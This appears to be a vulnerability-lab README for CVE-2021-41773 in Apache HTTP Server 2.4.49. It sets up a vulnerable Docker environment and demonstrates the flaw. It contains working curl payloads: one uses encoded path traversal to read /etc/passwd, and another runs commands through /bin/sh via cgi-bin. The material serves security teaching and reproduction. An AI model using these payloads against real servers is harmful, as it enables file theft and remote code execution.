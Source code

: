 # Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49 (CVE-2021-41773)

The Apache HTTP Server Project is an effort to develop and maintain an open-source HTTP server for modern operating systems including UNIX and Windows.

A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root.

If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution.

References:

- https://httpd.apache.org/security/vulnerabilities_24.html
- https://twitter.com/ptswarm/status/1445376079548624899
- https://twitter.com/HackerGautam/status/1445412108863041544
- https://twitter.com/snyff/status/1445565903161102344

## Vulnerable environment

Execute following commands to start a vulnerable Apache HTTP Server:

```
docker compose build
docker compose up -d
```

After the server is started, you can see the default page which says `It works!` of Apache HTTP Server through `http://your-ip:8080`.

## Exploit

A simple CURL command to reproduce the vulnerability (Note that `/icons/` must be a existing directory):

```
curl -v --path-as-is http://your-ip:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

The `/etc/passwd` is disclosured successfully:

![](1.png)

With the mods cgi or cgid enabled on the server, this path traversal vulnerability would allow arbitrary command execution:

```
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh'
```

![](2.png)
